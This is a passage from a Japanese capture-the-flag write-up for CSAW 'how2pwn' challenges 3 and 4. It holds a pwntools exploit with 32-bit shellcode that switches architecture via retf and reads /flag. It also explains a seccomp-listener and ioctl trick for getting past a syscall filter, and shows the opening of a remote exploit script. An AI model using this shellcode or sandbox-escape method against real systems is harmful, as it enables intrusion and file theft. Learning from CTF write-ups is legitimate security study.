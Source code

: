 ```py
shellcode = asm(shellcode)+b'\xcb'# \xcb is retf
p.send(shellcode.ljust(0x100,b'\0'))

context.arch='i386'
context.bits=32
flag_path_1 = hex(u32(b"/fla"))
flag_path_2 = hex(u32(b"g\0\0\0"))
shellcode=f'''
mov esp, 0xcafe500
mov eax, 0x5
push {flag_path_2}
push {flag_path_1}
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80

mov ebx, eax
mov al,0x3
mov ecx, esp
mov edx, 0x1600
int 0x80

mov ebx, 1
mov eax, 4
mov ecx, esp
mov edx, 0x1600
int 0x80

mov eax, 1
int 0x80
'''
# input()
shellcode = asm(shellcode)
print("[+] len of shellcode: "+str(len(shellcode)))

p.send(shellcode)
p.interactive()
p.close()
```
FLAGを見ると3問目のexploit codeのサンプルとticketが置いてあった。

## 4問目
### 解法
使えるシステムコールがseccomp, fork, ioctl, exitしかない。
しかしながら、サンプルコールのコメント部分にある解説によると、`seccomp(SECCOMP_SET_MODE_FILTER,SECCOMP_FILTER_FLAG_NEW_LISTENER,filter)`で開かれたファイルディスクリプタを作り出して、`ioctl(fd)`ですべてのシステムコールを利用可能に書き換えれば3問目に帰着できるらしい。

### Exploit
サンプルコードに頼りすぎた結果、深く理解できないままexploit成功してしまった。
要勉強。
```py
from pwn import *
import sys

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
debug = 0
if debug:
    p = process("./chal4")
else:
    p = remote("how2pwn.chal.csaw.io",60004)
    # p = remote("0.0.0.0",60004)
```